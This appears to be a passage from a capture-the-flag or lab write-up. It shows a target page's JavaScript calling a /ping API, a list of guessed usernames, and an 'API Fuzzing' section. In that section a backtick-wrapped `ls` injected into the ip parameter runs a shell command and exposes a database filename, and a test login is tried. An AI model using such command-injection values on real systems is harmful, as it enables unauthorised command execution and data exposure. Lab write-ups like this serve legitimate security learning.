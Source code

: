 ```bash
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();

# Possible usernames
John
Francois
Alvaro
r00t
p4c0
sq4l
```

# API Fuzzing

We can see the output when we feed the API some expected inputs.
However, if we try and change the requests to something unexpected, we get a different response.

We can **escape** the ping command and make the API execute native shell commands like list, find, cat etc.

```bash
# Intended PING command
/ping?ip=127.0.0.1
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms

# Unintended PING command with character escapes
/ping?ip=`ls`
ping: utech.db.sqlite: Name or service not known

# AUTH
/auth?login=john&password=password123
Invalid credentials
```
